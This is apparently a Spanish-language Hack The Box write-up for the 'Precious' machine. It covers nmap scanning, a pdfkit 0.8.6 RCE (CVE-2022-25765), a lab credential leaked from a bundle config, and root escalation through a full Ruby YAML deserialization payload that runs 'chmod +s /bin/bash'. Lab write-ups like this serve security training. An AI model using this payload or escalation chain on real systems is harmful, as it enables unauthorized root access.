 ```yaml
---
title: HackTheBox - Precious
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'RCE pdfkit 0.8.6 (CVE-2022-25765)', 'Information Leakage', 'Leak Information', 'YAML Deserialization']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Precious/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Precious Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **RCE pdfkit 0.8.6 (CVE-2022-25765), Information Leakage, Leak Information, YAML Deserialization**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Precious/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Precious/02-versions.png)

c. La página web transforma html a pdf pasándole una URL. Al interceptar la solicitud con Burp Suite veremos que software se emplea para esto

![](/assets/images/HTB/Easy/Precious/03-web.png)

* Buscamos por algún exploit para esta versión de [pdfkit 0.8.6](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Aquí nos explican los pasos para explotar un RCE

    ![](/assets/images/HTB/Easy/Precious/04-rce.png)

d. Nos enviamos una reverse shell

![](/assets/images/HTB/Easy/Precious/05-steps.png)

### Escalada de Privilegios 💹

a. Al explorar en el directorio del usuario **ruby** conseguiremos un fichero de configuración el cual contiene la credencial del usuario henry. Nos conectaremos por SSH

```bash
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
----------------------------------------------------------
❯ ssh henry@10.10.11.189
henry@10.10.11.189's password: Q3c1AqGHtoI0aXAYFH
bash-5.1$
```

b. Listamos nuestros privilegios a nivel de sudoers

```bash
bash-5.1$ sudo -l
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

* Si inspeccionamos el script **update_dependencies.rb** veremos que carga un fichero **dependencies.yml** del directorio actual

    ```ruby
    def list_from_file
        YAML.load(File.read("dependencies.yml"))
    end
    ```

* Al buscar por una forma de escalar privilegios a través de un fichero yml nos encontramos con este [post](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

c. Creamos un fichero **dependencies.yml** en nuestro directorio personal con el siguiente contenido

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

> Si ejecutamos `/opt/update_dependencies.rb` mientras estamos en nuestro directorio, el script usará el fichero **dependencies.yml** previamente creado, ya que, no se especifica una ruta absoluta de este fichero.
{: .prompt-info }

* Una vez ejecutemos el script, ya podremos acceder como root

    ```bash
    bash-5.1$ sudo /usr/bin/ruby /opt/update_dependencies.rb
    <SNIP>
    bash-5.1$ bash -p
    bash-5.1# whoami
    root
    ```